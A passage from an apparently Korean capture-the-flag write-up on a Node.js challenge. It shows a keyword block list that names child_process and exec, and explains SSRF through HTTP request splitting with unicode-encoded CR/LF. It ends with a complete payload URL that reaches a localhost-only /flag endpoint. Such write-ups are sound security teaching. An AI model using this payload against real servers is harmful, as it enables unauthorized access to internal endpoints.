 ```js
    "root",
    "child_process",
    "exec",
    '"',
    "'",
    "!",
  ]
  var arrayLen = evilwords.length
  for (var i = 0; i < arrayLen; i++) {
    const trigger = url.includes(evilwords[i])
    if (trigger === true) {
      return true
    }
  }
}

var server = app.listen(8081, function () {
  var host = server.address().address
  var port = server.address().port
  console.log("Example app listening at http://%s:%s", host, port)
})
```

여기서 보면 flag에 접근을 해야 하는데 일단 localhost에서 접근을 해야 하는 것을 볼 수 있습니다.

이때 `req.connection.remoteAddress;` 을 통해 받고 있기 때문에 `x-forwarded-for` 와 같은 헤더로는 공격이 불가능한 것을 확인할 수 있습니다.

```js
//node 8.12.0
app.get('/core', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:8081/getMeme?' + q
```

source에서 보이는 주석에서 알려 주는 nodejs 버전과 /core에서 받아 들이는 q= 파라미터에서 url parse 취약점을 이용하여 ssrf가 가능해 보입니다.

> #### [참고 \- HTTP Request Splitting](https://capec.mitre.org/data/definitions/105.html), [SSRF via Request Splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/) , [유니코드 정보](https://en.wikipedia.org/wiki/List_of_Unicode_characters)
>
> HTTP Request에 double CR/LF characters으로 변환되는 유니코드를 url 포맷에 맞춰 (
>
> %C4%8D%C4%8A)를 HTTP header에 넣음으로 request을 split! 합니다.

```
http://27.96.135.144:8081/core?q=test%C4%A0HTTP%2F1.1%C4%8D%C4%8AHOST%3A%C4%A0127.0.0.1%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0%2Fflag%C4%A0HTTP%2F1.1%C4%8D%C4%8AHOST%3A%C4%A0127.0.0.1%C4%8D%C4%8Aadminauth%3A%C4%A0secretpassword%C4%8D%C4%8Apug%3A%C4%A0123%C4%8D%C4%8Atest%3A
```

이제 서버에서는 url이 이런 형태로 parse 시켜서 이해 하게 됩니다.
